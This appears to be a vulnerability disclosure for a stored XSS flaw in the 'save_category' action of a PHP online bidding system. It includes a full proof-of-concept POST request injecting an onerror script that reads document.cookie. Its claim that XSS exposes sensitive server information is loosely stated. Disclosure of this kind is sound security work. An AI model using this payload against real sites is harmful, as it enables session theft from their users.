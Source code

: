## Sourcecoster simple online bidding system has XSS vulnerability

## submitter
zhangMingMing

## supplier
https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

## Vulnerability file
/simple-online-bidding-system/bidding/admin/ajax.php?action=save_category

## Vulnerability analysis

Echo is used here for parameter output.
<img width="1210" alt="image" src="https://github.com/user-attachments/assets/2e2c2e65-1769-4bee-a76e-c6f4bf7c506c">


## describe
There are unlimited XSS attacks in the simple online bidding system, and the controllable parameter is $name. An attacker can obtain sensitive server information through this vulnerability.

POC
```
POST /simple-online-bidding-system/bidding/admin/ajax.php?action=save_category HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------266074951711231239711048308010
Content-Length: 324
Origin: http://localhost
Connection: close
Referer: http://localhost/simple-online-bidding-system/bidding/admin/index.php?page=categories
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------266074951711231239711048308010
Content-Disposition: form-data; name="id"

8
-----------------------------266074951711231239711048308010
Content-Disposition: form-data; name="name"

<img src=1 onerror=alert(document.cookie)>
-----------------------------266074951711231239711048308010--
```
